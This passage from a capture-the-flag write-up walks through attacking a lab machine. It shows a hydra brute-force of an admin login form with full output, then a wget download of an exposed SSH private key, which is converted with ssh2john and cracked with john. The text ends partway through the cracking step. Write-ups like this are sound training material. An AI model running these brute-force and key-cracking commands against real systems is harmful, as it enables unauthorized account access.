 
&nbsp;

## Task 2: Getting a shell
### What is the user:password of the admin panel?

- Let's go to the `admin/` directory.

![2](https://github.com/Knign/Write-ups/assets/110326359/37b68183-6329-49a4-9acf-f8aaed6cb39b)

- We can check the source code using  `CTRL+U`.

![3](https://github.com/Knign/Write-ups/assets/110326359/c99d5669-21ec-4307-8060-88d15e86109d)

- Now that we know the username, we can use `hydra` to brute force the password.
```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.30.186 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=username or password invalid"
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-07 09:48:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.30.186:80/admin/index.php:user=^USER^&pass=^PASS^:F=username or password invalid
[80][http-post-form] host: 10.10.30.186   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-07 09:49:25
```
### Answer
```
admin:xavier
```

&nbsp;

##$ Crack the RSA key you found. What is John's RSA Private Key passphrase?
- Let's login with `admin` as the username and `xavier` as the password.

![4](https://github.com/Knign/Write-ups/assets/110326359/8926dd22-3fbc-45c3-8f40-29f627bc8c2a)

- Let's download the `RSA private key`. for the user `john`.
```
$ wget http://10.10.30.186/admin/panel/id_rsa
--2023-12-07 09:59:03--  http://10.10.30.186/admin/panel/id_rsa
Connecting to 10.10.30.186:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1766 (1.7K)
Saving to: ‘id_rsa’

id_rsa                                                     100%[========================================================================================================================================>]   1.72K  --.-KB/s    in 0s      

2023-12-07 09:59:04 (3.21 No error) - ‘id_rsa’ saved [1766/1766]
```
- We can use `ssh2john` to create a hash file.
```
$ ssh2john id_rsa > id_hash 
```
- Now we can use `john` to crack the hashes.
```
$ john id_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
```